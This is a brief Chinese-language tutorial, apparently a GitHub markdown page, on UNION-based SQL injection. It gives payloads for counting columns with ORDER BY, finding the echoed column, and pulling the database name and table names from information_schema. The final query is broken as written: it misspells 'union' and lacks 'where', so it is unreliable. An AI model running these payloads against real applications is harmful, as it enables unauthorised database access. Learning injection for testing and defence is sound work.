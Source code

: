 ## Union注入攻击
### 判断字段长度
使用order by num。其中num指的就是第几列，由于不存在第几行就会报错。比如 order by 4，这个就是指的是按照第四列排序，如果不存在第四行就会报错
### 判断相关字段类型
使用order by num 可以获取到有几列数据，现在就要获取到每列数据的数据类型。比如上面获取到的是四列数据。则这里就是用
```sql
union select 1,2,3,4 
```
看返回的是哪个数字就可以确认对应的列是可以返回数据的。
### 获取数据
已经获取到了4列数据，并且确认返回的是3，即
```sql
union select 1,2,3,4 
```
返回的是3则说明第三列可以存放变量的。
使用
1. 获取数据库
```sql
id=1 union select 1,2,database(),4
```
成功返回当前使用的数据库，返回的是sql
2. 获取表
```sql
    unioon select 1,2,(select table_name from information_schema.tables table_name='sql' limit 0,1),4
```

成功获取返回得到数据表，返回的是emails

```{.python .input}

```
